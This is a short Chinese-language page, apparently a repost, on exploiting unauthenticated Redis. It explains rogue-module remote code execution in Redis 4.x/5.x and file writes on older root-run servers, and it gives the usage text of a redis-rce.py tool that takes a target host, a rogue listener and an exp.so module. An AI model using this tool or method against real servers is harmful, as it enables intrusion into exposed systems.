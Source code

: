 # (python)redis未授权批量提权脚本

> 原文：[https://www.zhihuifly.com/t/topic/3104](https://www.zhihuifly.com/t/topic/3104)

# redis 未授权访问

## 一、漏洞简介

由于Redis在4.0之后的版本中加入了外部模块扩展功能，使得攻击者可以通过外部模块扩展，引入恶意的.so文件，实现恶意代码执行。

如果Redis版本在4.0以下，同时redis-server以root权限启动，则攻击者可以在服务器上创建任意文件。

## 二、影响范围

Redis 2.x，3.x，4.x，5.x

## 三、复现过程

### Usage:

Compile exp.so from https://github.com/RicterZ/RedisModules-ExecuteCommand.

```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules `optional arguments:

-h, --help            show this help message and exit

-r RHOST, --rhost RHOST

target host

-p RPORT, --rport RPORT

target redis port, default 6379

-L LHOST, --lhost LHOST

rogue server ip

-P LPORT, --lport LPORT

rogue server listen port, default 21000

-f FILE, --file FILE  RedisModules to load, default exp.so

-a AUTH, --auth AUTH  redis password

-v, --verbose         show more info` 
```
